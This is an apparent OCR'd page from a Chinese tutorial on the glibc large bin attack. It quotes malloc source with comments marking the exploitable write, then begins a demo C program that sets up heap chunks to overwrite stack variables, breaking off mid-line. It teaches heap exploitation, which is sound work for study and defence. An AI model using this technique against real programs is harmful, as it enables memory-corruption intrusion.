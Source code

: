    ```c
               else // 如果victim的size大于找到的chunk(fwd)，就要修改fd/bk_nextsize
               {
                 victim->fd_nextsize = fwd;
                 victim->bk_nextsize = fwd->bk_nextsize; // large bin attack前修改了fwd->bk_nextsize
                 fwd->bk_nextsize = victim;
                 victim->bk_nextsize->fd_nextsize = victim; // large bin attack攻击使用的位置
               }
               bck = fwd->bk;
             }
           }
           else // 对应的large bin 是空的，直接放入，不需要排序，fd/bk_nextsize都直接指向自己
             victim->fd_nextsize = victim->bk_nextsize = victim;
         }
   
         mark_bin(av, victim_index); // 开始插入到bck和fwd之间
         victim->bk = bck;
         victim->fd = fwd;
         fwd->bk = victim;
         bck->fd = victim;
   
   ```

2. 调试源码：

   ```c
   #include<stdio.h>
   #include<stdlib.h>
   #include<assert.h>
   
   int main()
   {
       setbuf(stdout, NULL);
   
       printf("本文件演示了通过将一个大的无符号长值写入栈上的large bin攻击\n");
       printf("实际上，large bin攻击通常为进一步的攻击做准备，例如重写libc中的全局变量global_max_fast以进行进一步的fastbin攻击\n\n");
   
       unsigned long stack_var1 = 0;
       unsigned long stack_var2 = 0;
   
       printf("首先，我们看看要在栈上重写的目标：\n");
       printf("stack_var1 (%p): %ld\n", &stack_var1, stack_var1);
       printf("stack_var2 (%p): %ld\n\n", &stack_var2, stack_var2);
   
       unsigned long *p1 = malloc(0x420);
       printf("现在，我们在堆上分配第一个大块：%p\n", p1 - 2);
   
       printf("再分配另一个fastbin块，以避免在free()期间将下一个大块与第一个大块合并\n\n");
       malloc(0x20);
   
       unsigned long *p2 = malloc(0x500);
       printf("然后，我们在堆上分配第二个大块：%p\n", p2 - 2);
   
       printf("再分配另一个fastbin块，以避免在free()期间将下一个大块与第二个大块合并\n\n");
       malloc(0x20);
   
       unsigned long *p3 = malloc(0x500);
       printf("最后，我们在堆上分配第三个大块：%p\n", p3 - 2);
   
       printf("再分配另一个fastbin块，以避免在free()期间将第三个大块与top块合并\n\n");
       malloc(0x20);
   
       free(p1);
       free(p2);
       printf("现在我们释放第一个和第二个大块，它们将被插入到unsorted bin中："
   ```